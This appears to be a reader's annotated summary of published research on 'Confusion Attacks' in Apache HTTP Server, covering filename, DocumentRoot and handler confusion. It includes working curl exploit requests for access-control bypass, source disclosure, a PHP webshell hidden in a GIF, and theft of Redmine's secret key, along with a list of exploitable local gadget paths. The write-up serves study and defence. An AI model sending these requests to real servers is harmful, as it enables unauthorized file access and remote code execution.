




# Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!


This is my research on #Apache HTTP Server [](https://read.readwise.io/read/01jnkc4h7nvkdd87grhwdz64xk)

You can check the slides here:
 > [Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!](https://i.blackhat.com/BH-US-24/Presentations/US24-Orange-Confusion-Attacks-Exploiting-Hidden-Semantic-Thursday.pdf) [](https://read.readwise.io/read/01jnkc5p4qdw0wxs75qb823cg3)

And see the video talks here:
- https://www.youtube.com/watch?v=bAHqEefF7Ok&ab_channel=OrangeCon
- https://www.youtube.com/watch?v=euO9WbYHm0s&ab_channel=BlackHat

A PoC and testing tool had also been created to test this issues: [Mrmtwoj/Apache-Vulnerability-Testing: Apache HTTP Server Vulnerability Testing Tool | PoC for CVE-2024-38472](httpsgithub.commrmtwoj%20-%20MrmtwojApache-Vulnerability-Testing%20Apache%20HTTP%20Server%20Vulnerability%20Testing%20Tool%20PoC%20for%20CVE-2024-38472%20,%20CVE-2024-39573%20,%20CVE-2024-38477%20,%20CVE-2024-38476%20,%20CVE-2024-38475%20,%20CVE-2024-38474%20,%20CVE-2024-38473%20,%20CVE-2023-38709.md)

This article explores architectural issues within the Apache HTTP Server, highlighting several technical debts within Httpd, **including 3 types of Confusion Attacks** [](https://read.readwise.io/read/01jnngtnhvc67pqkrbcrc5e1wk)

- How a single `?` can bypass Httpd’s built-in access control and authentication.
- How unsafe `RewriteRules` can escape the Web Root and access the entire filesystem.
- How to leverage a piece of code from 1996 to transform an XSS into RCE. [](https://read.readwise.io/read/01jnngv7n6397cqmdtz2jp7zds)

## Apache HTTP Server 101

Firstly, the Apache HTTP Server is a world constructed by “modules,” as proudly declared in its [official documentation](https://httpd.apache.org/docs/2.4/mpm.html) regarding its modularity:
 > Apache httpd has always accommodated a wide variety of environments through its modular design. […] Apache HTTP Server 2.0 extends this modular design to the most basic functions of a web server. [](https://read.readwise.io/read/01jnnh0s6frwpq3yhkew2kxqjz)

The entire Httpd service relies on hundreds of small modules working together to handle a client’s HTTP request. **Among the [136 modules listed by the official documentation](https://httpd.apache.org/docs/2.4/mod/), about half are either enabled by default or frequently used by websites**! [](https://read.readwise.io/read/01jnnh1bz0v95w342bzner53h6)

Each module even has the ability to modify any value in this structure according to its own preferences! [](https://read.readwise.io/read/01jnnh2rtvmw4nv7mraa5zgjvk)


Each module might be implemented by different people, with the code undergoing years of iterations, refactors, and modifications. Do they really still know what they are doing? Even if they understand their own duty, what about other modules’ implementation details? [](https://read.readwise.io/read/01jnnh41xzv14cfty528ntdxm0)

## A Whole New Attack — Confusion Attack

If a module accidentally modifies a structure field that it considers unimportant, but is crucial for another module, it could affect the latter’s decisions. Furthermore, if the definitions or semantics of the fields are not precise enough, causing ambiguities in how modules understand the same fields, it could lead to potential security risks as well! [](https://read.readwise.io/read/01jnnh53940qegsps9qykp6sdm)


We developed three different types of attacks, as these attacks are more or less related to the misuse of structure fields. Hence, we’ve named this attack surface “Confusion Attack,” and the following are the attacks we developed:
1. **Filename Confusion**
2. **DocumentRoot Confusion**
3. **Handler Confusion** [](https://read.readwise.io/read/01jnnh5pvna5wt5gytea5rdhvf)

These vulnerabilities were reported through the official security mailing list and were addressed by the Apache HTTP Server in the [2.4.60 update](https://httpd.apache.org/security/vulnerabilities_24.html) published on 2024-07-01. [](https://read.readwise.io/read/01jnnh8c1ga0ssdcm43mqjjnbt)

### 🔥 1. Filename Confusion

The first issue stems from confusion regarding the filename field. Literally, `r->filename` should represent a filesystem path. However, in Apache HTTP Server, some modules treat it as a URL. [](https://read.readwise.io/read/01jnnh9v5nkx2hpnqjxkb08rpt)

#### ⚔️ Primitive 1-1. Truncation 

`mod_rewrite`, which allows sysadmins to easily rewrite a path pattern to a specified substitution target using the `RewriteRule` directive:
 
`RewriteRule Pattern Substitution [flags]` [](https://read.readwise.io/read/01jnnhbcbhj5g84vptfcnmg5vk)


**while rewriting the target paths, `mod_rewrite` forcefully treats all results as a URL**, truncating the path after a question mark `%3F`. [](https://read.readwise.io/read/01jnnhcdk6fjkgka4pb9xh4x86)

##### ✔️ 1-1-1. Path Truncation

Imagine the following `RewriteRule`:
 ```lua
RewriteEngine On 
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml" 
``` 

The server would open the corresponding profile based on the username followed by the path `/user/`, for example:
```sh
$ curl http://server/user/orange 
# the output of file `/var/user/orange/profile.yml` 
```
 
 Since `mod_rewrite` forcibly treats all rewritten result as a URL, even when the target is a filesystem path, it can be truncated at a question mark, cutting off the tailing `/profile.yml`, like:
 ```sh
$ curl http://server/user/orange%2Fsecret.yml%3F 
# the output of file `/var/user/orange/secret.yml` [](https://read.readwise.io/read/01jnnhf33yjjz249xb9qfbts0h)
```

##### ✔️ 1-1-2. Mislead RewriteFlag Assignment 

Imagine a sysadmin managing websites and their corresponding handlers through the following `RewriteRule`:
```lua
RewriteEngine On 
RewriteRule ^(.+\.php)$ $1 [H=application/x-httpd-php] 
```

If a request ends with the `.php` extension, it adds the corresponding handler for the `mod_php` [](https://read.readwise.io/read/01jnnhgvkmwnc446c3cyjxs1hf)

Since the truncation behavior of the `mod_rewrite` occurs after the regular expression match, an attacker can use the original rule to apply flags to requests they shouldn’t apply to by using a `?`. For example, an attacker could upload a GIF image embedded with malicious PHP code and execute it as a backdoor through the following crafted request:

 ```sh
$ curl http://server/upload/1.gif 
# GIF89a <?=`id`;> 

$ curl http://server/upload/1.gif%3fooo.php 
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data) [](https://read.readwise.io/read/01jnnhjrm4vdbtrqzydrp7mnbb)
```

#### ⚔️ Primitive 1-2. ACL Bypass

The second primitive of Filename Confusion occurs in the `mod_proxy`. [](https://read.readwise.io/read/01jnnhkjf0m27dpmp8kmycss2y)

This time **the authentication and access control bypass is caused by the inconsistent semantic of `r->filename` among the modules!** [](https://read.readwise.io/read/01jnnhky5fren0wvw3psn3t8d8)

A classic example is when sysadmins use the `Files` directive to restrict a single file, like `admin.php`:
```xml
<Files "admin.php"> 
	AuthType Basic 
	AuthName "Admin Panel" 
	AuthUserFile "/etc/apache2/.htpasswd" 
	Require valid-user 
</Files>
```
  [](https://read.readwise.io/read/01jnnhn9h7bpz4jg71q84tx1eh)

This type of configuration can be bypassed directly under the default PHP-FPM installation! [](https://read.readwise.io/read/01jnnhnq6kzzskkn1ddtbbm1qk) 
Suppose you visit a URL like this:
 > `http://server/admin.php%3Fooo.php` [](https://read.readwise.io/read/01jnnhnzawcdq8q67gfbdxdgm6)

First, in the HTTP lifecycle at this URL, the authentication module will compare the requested filename with the protected files. At this point, the `r->filename` field is `admin.php?ooo.php`, which obviously does not match `admin.php`, so the module will assume that the current request does not require authentication. However, the PHP-FPM configuration is set to forward requests ending in `.php` to the `mod_proxy` using the `SetHandler` directive: [](https://read.readwise.io/read/01jnnhq1w5t6p6jpcfabq1y2g3)

*Path: /etc/apache2/mods-enabled/php8.2-fpm.conf* [](https://read.readwise.io/read/01jnnhqbc9n8shz88s3q9zwqed)
```xml
 # Using (?:pattern) instead of (pattern) is a small optimization that 
 # avoid capturing the matching pattern (as $1) which isn't used here 
 <FilesMatch ".+\.ph(?:ar|p|tml)$"> 
	 SetHandler "proxy:unix:/run/php/php8.2-fpm.sock|fcgi://localhost" 
 </FilesMatch>
```

`mod_proxy` will rewrite `r->filename` to the following URL and call the sub-module `mod_proxy_fcgi` [](https://read.readwise.io/read/01jnnhqsrbn0ntvzz14tyawgym)

>`proxy:fcgi://127.0.0.1:9000/var/www/html/admin.php?ooo.php` [](https://read.readwise.io/read/01jnnhqx8bg66t7ppg43tdvfwg)

PHP-FPM first normalizes the filename and splits it at the question mark `?` to extract the actual file path for execution (which is `/var/www/html/admin.php`). This leads to the bypass, and basically, **all authentications or access controls based on the `Files` directive for a single PHP file are at risk when running together with PHP-FPM!** [](https://read.readwise.io/read/01jnnhrzftxqyh15555vkb1kyj)

Many potentially risky configurations can be found on GitHub [](https://read.readwise.io/read/01jnnhsp16bfg2k48saw1ap1ry) like`phpinfo()` restricted to internal network access only:
 ```xml
# protect phpinfo, only allow localhost and local network access 
<Files php-info.php> 
	# LOCAL ACCESS ONLY 
	# Require local 
	# LOCAL AND LAN ACCESS 
	Require ip 10 172 192.168 
</Files>
```
  
Adminer blocked by `.htaccess`:
```xml
<Files adminer.php> 
	Order Allow,Deny 
	Deny from all 
</Files> 
```

Protected `xmlrpc.php`:
 ```xml
<Files xmlrpc.php> 
	Order Allow,Deny 
	Deny from all 
</Files>
```

 CLI tools prevented from direct access:
 ```xml
<Files "cron.php"> 
	Deny from all 
</Files> 
```


### 🔥 2. DocumentRoot Confusion

The next attack we’re diving into is the confusion based on DocumentRoot! Let’s consider this Httpd configuration for a moment:[](https://read.readwise.io/read/01jnnhtrxreeqsx99ykrfsr0mc)
```xml
DocumentRoot /var/www/html 
RewriteRule ^/html/(.*)$ /$1.html
```

When you visit the URL `http://server/html/about`, which file do you think Httpd actually opens? [](https://read.readwise.io/read/01jnnhvbxcjr0yd131afbggngy)
- `/about.html`; or
- `/var/www/html/abouth.html` ?

For any `RewriteRule`, Apache HTTP Server **always tries to open both** the path with DocumentRoot and without it! [](https://read.readwise.io/read/01jnnhwkrm1d0z7nwn90xpfp1y)

Most of the time, the version without DocumentRoot doesn’t exist, so Apache HTTP Server goes for the version with the DocumentRoot. But this behavior already lets us “intentionally” access paths outside the Web Root. **If today we can control the prefix of the `RewriteRule`, couldn’t we access any file on the system?** [](https://read.readwise.io/read/01jnnhxswant2f0xgspx4zxzdh)

You can find numerous problematic configurations on GitHub, and even [the examples from official Apache HTTP Server documentations](https://httpd.apache.org/docs/current/rewrite/remapping.html#rewrite-query) are vulnerable to attacks:
```xml
# Remove mykey=??? 
RewriteCond "%{QUERY_STRING}" "(.*(?:^|&))mykey=([^&]*)&?(.*)&?$" 
RewriteRule "(.*)" "$1?%1%3" 
```
 
There are other `RewriteRule` that are also affected, such as rules based on caching needs or hiding file extensions:
```xml
RewriteRule "^/html/(.*)$" "/$1.html" 
```

The Rule trying to save bandwidth by opting for compressed versions of static files:
```XML
RewriteRule "^(.*)\.(css|js|ico|svg)" "$1\.$2.gz" 
``` 

The rule redirecting old URLs to the main site:
```XML
RewriteRule "^/oldwebsite/(.*)$" "/$1" 
``` 

The rule returning a 200 OK for all CORS preflight requests: [](https://read.readwise.io/read/01jnnhz6an9kfjah1s1mqwm3ys)
```xml
RewriteCond %{REQUEST_METHOD} OPTIONS 
RewriteRule ^(.*)$ $1 [R=200,L] 
```

As long as the target prefix of a `RewriteRule` is controllable, we can access nearly the entire filesystem. [](https://read.readwise.io/read/01jnnhzrb9bwetr817azncf7tt)

Extensions like `.html` and `.gz` are the restrictions that keep us from being truly free. So, can we access files outside `.html`? I am not sure if you remember the primitive of Path Truncation from the Filename Confusion earlier? By combining these two primitives, we can freely access arbitrary files on the filesystem! [](https://read.readwise.io/read/01jnnj14ngmsnw870s31fne079)

#### ⚔️ Primitive 2-1. Server-Side Source Code Disclosure

The first primitive of DocumentRoot Confusion — **Arbitrary Server-Side Source Code Disclosure**! [](https://read.readwise.io/read/01jnnj24c8jepknb1cwv0y9mag)

Apache HTTP Server decides whether to consider a file as a Server-Side Script based on the current directory or virtual host configuration [](https://read.readwise.io/read/01jnnj31gfxpqyhpx96dettegc). Absolute path can confuse Httpd’s logic, causing it to leak contents [](https://read.readwise.io/read/01jnnj3bcs695c12rxxversbr0).

See as an example of this technique:
- [Sina Kheirkhah (@SinSinology) - SonicBoom, From Stolen Tokens to Remote Shells - SonicWall SMA100](Sina%20Kheirkhah%20(@SinSinology)%20-%20SonicBoom,%20From%20Stolen%20Tokens%20to%20Remote%20Shells%20-%20SonicWall%20SMA100.md)
##### ✔️ 2-1-1. Disclose CGI Source Code

Since `mod_cgi` binds the CGI folder to a specified URL prefix via `ScriptAlias`, directly accessing a CGI file using its absolute path can leak its source code due to the change of URL prefix. [](https://read.readwise.io/read/01jnnj4na7k4qyd22dt3qafrhv)

```sh
$ curl http://server/cgi-bin/download.cgi 
# the processed result from download.cgi 
$ curl http://server/html/usr/lib/cgi-bin/download.cgi%3F 
# #!/usr/bin/perl 
# use CGI; 
# ... 
# # the source code of download.cgi [](https://read.readwise.io/read/01jnnj4sf2eqscgt2jyvxs5t5a)
```

##### ✔️ 2-1-2. Disclose PHP Source Code

Given that PHP has numerous use cases, if PHP environments are applied only to specific directories or virtual hosts (which is common in web hosting), accessing PHP files from a virtual host which didn’t support PHP can disclose the source code! [](https://read.readwise.io/read/01jnnj5es25bgtm6kjh6saqx7q)

`www.local` and `static.local` are two websites hosted on the same server; `www.local` allows PHP execution while `static.local` only serves static files. [](https://read.readwise.io/read/01jnnj5z8sz81965ebnmhamwa3)

```sh
$ curl http://www.local/config.php 
# the processed result (empty) from config.php 
$ curl http://www.local/var/www.local/config.php%3F -H "Host: static.local" 
# the source code of config.php [](https://read.readwise.io/read/01jnnj6t4xtwyd3wcpzrsrafxv)
```

#### ⚔️ Primitive 2-2. Local Gadgets Manipulation!

Here’s a snippet from Apache HTTP Server’s [configuration template](https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115):
```xml
<Directory /> 
	AllowOverride None 
	Require all denied 
</Directory> 
```

You’ll notice it defaults to blocking access to the root directory `/` (`Require all denied`). [](https://read.readwise.io/read/01jnnj9jv30hnv4p8eczmw48s3)

A closer inspection of different Httpd distributions reveals that [Debian/Ubuntu](https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L165) operating systems by default allow `/usr/share`: [](https://read.readwise.io/read/01jnnja490d8qs0gsxt4v8qd8r)
```xml
<Directory /usr/share> 
	AllowOverride None 
	Require all granted 
</Directory>
``` 

The next step is to “squeeze” all possibilities within this directory. All available resources, such as existing tutorials, documentation, unit test files, and even programming languages like PHP, Python, and even PHP modules could become targets for our abuse! [](https://read.readwise.io/read/01jnnjajxsyjgrexehp0qv2ryb)

##### ✔️ 2-2-1. Local Gadget to Information Disclosure

Let’s hunt for potentially exploitable files in this directory. [](https://read.readwise.io/read/01jnnjbhv1dpwy658fz6j9de7k)

If the target Apache HTTP Server has the `websocketd` service installed, the default package includes an example PHP script `dump-env.php` under `/usr/share/doc/websocketd/examples/php/`. If there’s a PHP environment on the target server, this script can be accessed directly to leak sensitive environment variables. [](https://read.readwise.io/read/01jnnjcdjw1ev14gkkt51sqe7q)


If the target has services like Nginx or Jetty installed [](https://read.readwise.io/read/01jnnjd1b1x3y769xxw01f0kcp):
- /usr/share/nginx/html/
- /usr/share/jetty9/etc/
- /usr/share/jetty9/webapps/ [](https://read.readwise.io/read/01jnnjdbaavktqazbcs3gz39vn)

Simple demonstration using `setup.php` from the `Davical` package, which exists as a read-only copy, to leak contents of `phpinfo()`. [](https://read.readwise.io/read/01jnnjeb41cr11xzc6qm5kne5r)


##### ✔️ 2-2-2. Local Gadget to XSS

How to turn this primitive into [XSS](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md)? [](https://read.readwise.io/read/01jnnjetgx3b5t3pp6h7z1hnpg)

On the Ubuntu Desktop environment, **LibreOffice**, an open-source office suite, is installed by default. We can leverage the language switch feature in the *help files* to achieve XSS. [](https://read.readwise.io/read/01jnnjff7fm3s4pyxmst093z43) 

Even if the target hasn’t deployed any web application, we can still create XSS using an unsafe `RewriteRule` through files that come within the operating system.

 [](https://read.readwise.io/read/01jnnjfzdwymfmtgd5nxk6ym68)

##### ✔️ 2-2-3. Local Gadget to LFI

What about arbitrary file reading? If the target server has PHP or frontend packages installed, like JpGraph, jQuery-jFeed, or even WordPress or Moodle plugins, their tutorials or debug consoles can become our gadgets: [](https://read.readwise.io/read/01jnnjgnkkvbsykjrfjww4m7b8)

- `/usr/share/doc/libphp-jpgraph-examples/examples/show-source.php`
- `/usr/share/javascript/jquery-jfeed/proxy.php`
- `/usr/share/moodle/mod/assignment/type/wims/getcsv.php` [](https://read.readwise.io/read/01jnnjgsz4arhwyx4mfdvs121h)

Simple example exploiting `proxy.php` from jQuery-jFeed to read `/etc/passwd`:
 
 [](https://read.readwise.io/read/01jnnjh1kzy5b75q3ttvvv3fd9)

##### ✔️ 2-2-4. Local Gadget to SSRF

**MagpieRSS** offers a `magpie_debug.php` file, which is fabulous gadget for exploiting:
- `/usr/share/php/magpierss/scripts/magpie_debug.php` [](https://read.readwise.io/read/01jnnjhjxfgkh385p6fjkcb4cs)

##### ✔️ 2-2-5. Local Gadget to RCE

This primitive can reapply all known existing attacks again, like an old version of **PHPUnit** left behind by development or third-party dependencies, can be directly exploited using [CVE-2017-9841](https://github.com/vulhub/vulhub/tree/master/phpunit/CVE-2017-9841) to execute arbitrary code. [](https://read.readwise.io/read/01jnnjj9445cyn68k7rtj51ftc)

#### ⚔️ Primitive 2-3. Jailbreak from Local Gadgets

**Jailbreak from `/usr/share`**! [](https://read.readwise.io/read/01jnnjka8gcshcdnnw94fv20v5)

In [Debian/Ubuntu](https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L160) distributions of Httpd, the `FollowSymLinks` option is explicitly enabled by default. Even in non-Debian/Ubuntu versions, Apache HTTP Server also [implicitly allows Symbolic Links](https://httpd.apache.org/docs/current/mod/core.html#options) by default.
 ```xml
<Directory /> 
	 Options FollowSymLinks 
	 AllowOverride None 
	Require all denied 
</Directory>
```

##### ✔️ 2-3-1. Jailbreak from Local Gadgets

Any package that has a Symbolic Link in its installation directory pointing outside of `/usr/share` can become a stepping-stone to access more gadgets: [](https://read.readwise.io/read/01jnnjmkjmvnbwc881mf4av7th)

- **Cacti Log**: `/usr/share/cacti/site/` -> `/var/log/cacti/`
- **Solr Data**: `/usr/share/solr/data/` -> `/var/lib/solr/data`
- **Solr Config**: `/usr/share/solr/conf/` -> `/etc/solr/conf/`
- **MediaWiki Config**: `/usr/share/mediawiki/config/` -> `/var/lib/mediawiki/config/`
- **SimpleSAMLphp Config**: `/usr/share/simplesamlphp/config/` -> `/etc/simplesamlphp/` [](https://read.readwise.io/read/01jnnjmvah0zgqs695yjq9avwa)

##### ✔️ 2-3-2. Jailbreak Local Gadgets to Redmine RCE

Let’s showcase how to perform an RCE using a double-hop Symbolic Link in Redmine. [](https://read.readwise.io/read/01jnnjns82hsrp1zs1hbpr9tgy)

There’s an `instances/` folder pointing to `/var/lib/redmine/`, and within `/var/lib/redmine/`, the `default/config/` folder points to the `/etc/redmine/default/` directory, which holds Redmine’s database setting and secret key. [](https://read.readwise.io/read/01jnnjpdtebankgwchjcddbrm6)

```bash
$ file /usr/share/redmine/instances/ 
symbolic link to /var/lib/redmine/ 
$ file /var/lib/redmine/config/ 
symbolic link to /etc/redmine/default/ 
$ ls /etc/redmine/default/ 
database.yml secret_key.txt 
```

Through an insecure `RewriteRule` and two Symbolic Links, we can easily access the application secret key [](https://read.readwise.io/read/01jnnjpt8q9znxh22d1wkj6s6n)

```bash
$ curl http://server/html/usr/share/redmine/instances/default/config/secret_key.txt%3f 
HTTP/1.1 200 OK 
Server: Apache/2.4.59 (Ubuntu) 
... 
6d222c3c3a1881c865428edb79a74405
```

Since Redmine is a Ruby on Rails application, the content of `secret_key.txt` is actually the key used for signing and encrypting. [](https://read.readwise.io/read/01jnnjqdcv32cfqj2r9wn57t7k) By embedding malicious Marshal objects, signed and encrypted with the known keys, into cookies, and then achieving remote code execution through Server-Side Deserialization!

 [](https://read.readwise.io/read/01jnnjqnp8n01r5xm2krh71b6z)


### 🔥 3. Handler Confusion

This attack also leverages a piece of technical debt that has been left over from the legacy architecture of Apache HTTP Server. [](https://read.readwise.io/read/01jnnjrce2xebn5xf6q82sc1f4)
If today you want to run the classic `mod_php` on Apache HTTP Server, which of the following two directives do you use?

```Lua
AddHandler application/x-httpd-php .php 
AddType application/x-httpd-php .php
```

Why did Apache HTTP Server initially design two different directives doing the same thing?

```sh
AddHandler handler-name extension [extension] ... 
AddType media-type extension [extension] ...
```

Actually, `handler-name` and `media-type` represent different fields within Httpd’s internal structure, corresponding to `r->handler` and `r->content_type`, respectively.

Users can use them interchangeably without realizing it is thanks to a piece of code that has been in Apache HTTP Server since [its early development in 1996](https://svn.apache.org/repos/asf/httpd/httpd/branches/1.3.x/src/main/http_config.c) [](https://read.readwise.io/read/01jnnjw2x45zc2717bm6sx8fv9). If `r->handler` is empty, the content of the `r->content_type` is used as the final module handler. This is also why `AddType` and `AddHandler` have the identical effect, because the `media-type` is eventually converted into the `handler-name` before handling. [](https://read.readwise.io/read/01jnnjwkdnz609a75b9ydt2ve1)

#### ⚔️ Primitive 3-1. Overwrite the Handler

Imagine if today the target Apache HTTP Server uses `AddType` to run PHP.
```lua
AddType application/x-httpd-php .php
```

When accessing `http://server/config.php`, `mod_mime`, during the `type_checker` phase, Httpd copies the corresponding content into `r->content_type` based on the file extension set by `AddType`. Since `r->handler` is not assigned during the entire HTTP lifecycle, `ap_invoke_handler()` will treat `r->content_type` as the handler, ultimately calling `mod_php` to handle the request [](https://read.readwise.io/read/01jnnjzhxmevhprcctxw6j6y1n)

What happens if any module “accidentally” overwrites `r->content_type` before reaching `ap_invoke_handler()`? [](https://read.readwise.io/read/01jnnjzsa0cgj0v10mwfcbsf2v)

##### ✔️ 3-1-1. Overwrite Handler to Disclose PHP Source Code

The first exploitation of this primitive is to disclose arbitrary PHP source code by the “accidentally-overwrite”. [](https://read.readwise.io/read/01jnnk0smp4cfs2ad5p7hj48mn) Mentioned by Max Dmitriev in his research presented at ZeroNights 2021 [](https://read.readwise.io/read/01jnnk1091zp0eg9fh6rh7k2hj)

> Apache 0day bug, which still nobody knows of, and which was fixed accidentally [](https://read.readwise.io/read/01jnnk131jsyb5scqd698vjecz)

Max Dmitriev observed that by sending an incorrect `Content-Length`, the remote Httpd server would trigger an unexpected error and inadvertently return the source code of PHP script. [](https://read.readwise.io/read/01jnnk231k20f9vnd0a3tgw4mm)

The issue was due to ModSecurity not properly handling the return value of `AP_FILTER_ERROR` while using the Apache Portable Runtime (APR) library [](https://read.readwise.io/read/01jnnk38kp6fm9m6yvshgdt9gd)

When an error occurred, Httpd attempts to send out HTML error messages, thus accidentally overwriting `r->content_type` to `text/html`. [](https://read.readwise.io/read/01jnnk3d86r041nmqwbjy4wrtg)



Because ModSecurity did not properly handle the return values, the internal HTTP lifecycle that should have stopped continued. This “side effect” also overwrote the originally added `Content-Type`, resulting in files that should have been processed as PHP being treated as plain documents [](https://read.readwise.io/read/01jnnk4vj1x4tffn6m17rr4jd8)

```bash
$ curl -v http://127.0.0.1/info.php -H "Content-Length: x" 
> HTTP/1.1 400 Bad Request 
> Date: Mon, 29 Jul 2024 05:32:23 GMT 
> Server: Apache/2.4.41 (Ubuntu) 
> Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN"> 
<html><head> 
<title>400 Bad Request</title> 
... 
<?php phpinfo();?>
```

In theory, all configurations based on `Content-Type` are vulnerable to this type of attack, so apart from the `php-cgi` paired with `mod_actions` shown in Max’s slides, pure `mod_php` coupled with `AddType` is also affected. [](https://read.readwise.io/read/01jnnk5tvrw6qaa0e63jb2zvbh)

##### ⚔️ Primitive 3-2. Invoke Arbitrary Handlers

**When using `r->content_type`, Apache HTTP Server actually cannot distinguish its semantics; this field can be set by directive during the request phase or used as the `Content-Type` header in the server response**. [](https://read.readwise.io/read/01jnnk7zeejk0f61f56t7bpyr8)

If you can control the `Content-Type` header in the server response, you could invoke arbitrary module handlers through this legacy code snippet. [](https://read.readwise.io/read/01jnnk8jpfqyyaa11kj9fehk7e)

There’s still one last piece of the puzzle. In Httpd, all modifications to `r->content_type` from the server response occur after that legacy code. So, even if you can control the value of that field, at that point in the HTTP lifecycle, it’s too late to do further exploitation… is that right? [](https://read.readwise.io/read/01jnnk9ecqt9dj3z0e2b0rwdw8)

RFC 3875 is a specification about CGI, and [Section 6.2.2](https://datatracker.ietf.org/doc/html/rfc3875#section-6.2.2) defines a Local Redirect Response behavior:
> The CGI script can return a URI path and query-string (‘local-pathquery’) for a local resource in a Location header field. This indicates to the server that it should reprocess the request using the path specified. [](https://read.readwise.io/read/01jnnkafj9qxffxrfg5ks5m9xv)

